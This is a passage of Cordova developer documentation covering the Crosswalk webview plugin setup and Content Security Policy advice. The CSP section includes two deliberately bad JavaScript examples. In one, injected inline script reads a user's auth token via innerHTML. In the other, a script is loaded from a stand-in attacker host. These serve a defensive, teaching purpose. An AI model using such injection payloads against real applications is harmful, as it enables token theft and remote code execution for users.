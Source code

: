 1. In Visual Studio, simply click "Add" on the **Crosswalk Webview Engine** plugin in the **config.xml designer.**
2. When using the command line or Visual Studio Code, you can add the plugin using the Cordova CLI as follows:

    ```
    cordova plugin add cordova-plugin-crosswalk-webview --save
    ```

There are, however, some nuances to using the Crosswalk webveiw given it does slow down build times and requires GPU acceleration in emulators. See **[improving Android browser consistency and features with the Crosswalk WebView](../develop-apps/cordova-crosswalk.md)** for setup details and information on the useful **Shared Mode**.

Note that Crosswalk 14 can cause a crash when using Web Crypto and Crosswalk 16 has caused crashes in certain emulators. Crosswalk 15 appears to be a solid choice. If you run into unexpected crashes or odd behaviors, simply the following config.xml to force the plugin to use version 15 (Right-Click &gt; View Code in VS):

```
<preference name="xwalkVersion" value="org.xwalk:xwalk_core_library:15+" />
```

You should only add this preference if you encounter issues as it disables useful features like "Shared Mode".

##Use a strict Content Security Policy
By default, simply adding a CSP declaration to an HTML page locks it down very tightly. By default, applying a CSP **disables both eval() and inline script** and only allows access to JavaScript and CSS files from the **same origin as the HTML page**. Typically for Cordova apps this means only **local content** and as a result, CDN hosted content typically cannot be referenced.  Breaking these down in terms of risk:

1. **Inline script** for JavaScript content, though extremely handy for testing and development, is one of the largest risks for attacks. When inline script is allowed, all it takes is one unescaped input pumped to innerHTML to allow a user to run any arbitrary JavaScript code. Note the inline script restriction also applies to **onload** and similar HTML attributes for the exact same reason. For example, imagine textInput in this code game from an input element in HTML:
    ```javascript
    // This is bad
    textInput = "<div id='hack-otuput'></div>\
                 <script>\
                   document.getElementById('hack-output').innerText = app.user.authtoken;\
                 </script>"
    document.getElementById("output-div").innerHTML = textInput;
    ```

2. Allowing **JavaScript and CSS content from different origins** poses the next largest risk. Disabling inline script reduces the chances of attack, but even with inline script disabled you can still add a script tag with a href to an external source. The same innerHTML mistake can then lead to a similar vulnerability. While this is obviously true for JavaScript, CSS also poses a risk because directives like expression() and url('javascript:...'). You can loosen this restriction by listing only very specific domains that you trust but exercise caution when doing so. Tweaking the previous example slightly we get:
    ```javascript
    // This is also bad
    textInput = "<div id='hack-otuput'></div><script src='http://iliketohackthings.com/mybadscript.js'></script>"
    document.getElementById("output-div").innerHTML = textInput;
    ```
3. **eval()** along with related features like "new Function" also pose a risk but these are reduced if the inline and same origin restrictions are left in place. Further, eval is used by a number of JavaScript frameworks for optimization purposes so while this is the default it can become quite problematic if left in place. If your app and all associated frameworks do not make use of eval, you should disable it. Otherwise avoid using eval in your own code unless you really know exactly what you are doing.
